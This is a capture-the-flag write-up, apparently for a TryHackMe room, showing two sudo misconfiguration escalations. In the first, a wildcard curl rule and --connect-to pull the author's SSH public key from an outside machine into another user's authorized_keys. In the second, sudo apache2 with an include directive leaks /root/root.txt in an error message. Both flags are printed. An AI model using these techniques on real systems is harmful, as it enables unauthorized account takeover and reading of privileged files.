

### write ssh key to dolivaw using sudo on curl with *

I checked for sudo permissions using `sudo -l`:
```bash
rgiskard@ubuntu-jammy:/tmp$ sudo -l                                                                                                              
Matching Defaults entries for rgiskard on ubuntu-jammy:                                                                                          
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty                   
                                                                                                                                                 
User rgiskard may run the following commands on ubuntu-jammy:                                                                                    
    (dolivaw) /usr/bin/curl 127.0.0.1/*
```
we can see we can execute the next command as user `dolivaw`:
```bash
/usr/bin/curl 127.0.0.1/*
```



Okay, I tried to execute the command, we got arbirary file writing as user `dolivaw`, we might be able to write also the public ssh key into `/home/dolivaw/.ssh/authorized_keys`:
```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/bla -o /tmp/bla
```



we can use the option `connect-to` to change the ip and port, to another ip and port, and then serves our public key, and write it inside `authorized_keys`:

We'll use this command on our local machine to create the keys:
```bash
ssh-keygen -t rsa -f ./key -q
```

and this command will write the public key to `authorized_keys`:
```bash
sudo -u dolivaw /usr/bin/curl 127.0.0.1/key.pub --connect-to 127.0.0.1:80:192.168.164.248:8086 -o /home/dolivaw/.ssh/authorized_keys
```

Now, we just need to login using the private key:
```bash
ssh dolivaw@robots.thm -i ./key
```



and grab the user flag:
```bash
dolivaw@ubuntu-jammy:~$ cat user.txt 
THM{9b17d3c3e86c944c868c57b5a7fa07d8}
```

### Privilege Escalation to Root using sudo on apache

We check for sudo permissions:
```bash
dolivaw@ubuntu-jammy:~$ sudo -l
Matching Defaults entries for dolivaw on ubuntu-jammy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dolivaw may run the following commands on ubuntu-jammy:
    (ALL) NOPASSWD: /usr/sbin/apache2
```

Okay, let's get some privilege escalation using sudo on `apache2`.

I only want to sleep, and also get the root flag.
So, I put inside `apache2.conf` this one line:
```bash
IncludeOptional mods-enabled/*.load
```

and then executed:
```bash
dolivaw@ubuntu-jammy:/tmp$ sudo apache2 -f /tmp/apache2.conf -C 'include /root/root.txt' 
AH00526: Syntax error on line 1 of /root/root.txt:
Invalid command 'THM{2a279561f5eea907f7617df3982cee24}', perhaps misspelled or defined by a module not included in the server configuration
```



well done, good night :D

There are another ways to do this, I chose to get the flag in this way.
